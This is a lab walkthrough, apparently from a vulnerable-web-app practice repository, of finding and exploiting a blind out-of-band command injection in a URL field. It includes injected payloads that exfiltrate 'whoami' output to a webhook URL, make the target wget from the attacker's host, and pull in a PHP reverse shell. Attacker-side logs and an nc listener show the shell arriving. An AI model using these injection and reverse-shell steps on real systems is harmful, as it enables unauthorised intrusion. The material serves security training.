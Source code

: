 # Command Injection - Blind | Out of Bond

- In the provided tab where I can enter the URL, I will now proceed to further investigate and explore.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/e8ba5d60-4dd4-4685-be8c-9e929e624408)

- Upon entering the website URL, the response received is "website ok."

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/5b166f42-ab4f-4b96-8266-5d7b176d38d6)

- After attempting a simple payload, the response received remains the same, indicating "website ok" without any discernible changes.
- When trying to navigate to a random page in the URL, the response received is "website not found."

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/ad7b494e-019e-4ce0-8db3-2837d813bf2d)
![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/7aa181f0-64ca-47e0-a4eb-01343305537c)

- When attempting to execute a simple injection command and encountering a potential command filtering mechanism, it further reinforces the indication of a blind command injection vulnerability.
- By utilizing the webhook.site URL and injecting a command, I received a response from the URL containing the username. This confirms the existence of an `Out-of-band` command injection vulnerability.
- cmd: "<IP>?`whoami`"

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/f2afd58e-fb62-4261-8b81-8537f70dec24)
![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/6df42ea6-f0f8-46b1-80b6-6713be6cc2f5)

- I attempted to make a new request using the newline character. The purpose of this request was to retrieve a file from my Linux machine.
- I set up a Python server on my machine and injected the command into the URL.
- cmd: `https://<RHOST> /n wget http://<LHOST>:8080/test`

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/1f237314-654c-4227-b192-6ef5822161e8)

- I observe that the request has been made successfully, indicating that the command injection was successful.

```bash
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
xxx.xxx.xx.4 - - [16/Jul/2023 04:50:29] code 404, message File not found
xxx.xxx.xx.4 - - [16/Jul/2023 04:50:29] "HEAD /test HTTP/1.1" 404 -
```
- As I see that the URL has been sanitizing signs like semicolons (;) and colons (:) so to bypass it I'll upload a PHP rev shell and then execute in order to take the rev shell back.

```bash
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
xxx.xxx.xx.4 - - [16/Jul/2023 05:00:04] "HEAD /phprevshell.php HTTP/1.1" 200 -
```
- On navigation from the browser to `IP/phprevshell.php` I got the revshell back to my system.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/6177876c-20b1-4ba2-89f7-eb85f14add61)


```bash
└─$ rlwrap nc -nvlp 1234 
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.x86] from (UNKNOWN) [xxx.xxx.xx0.4] 52072
Linux d19181ed4936 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 GNU/Linux
 04:01:55 up  5:09,  0 users,  load average: 1.83, 1.65, 1.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

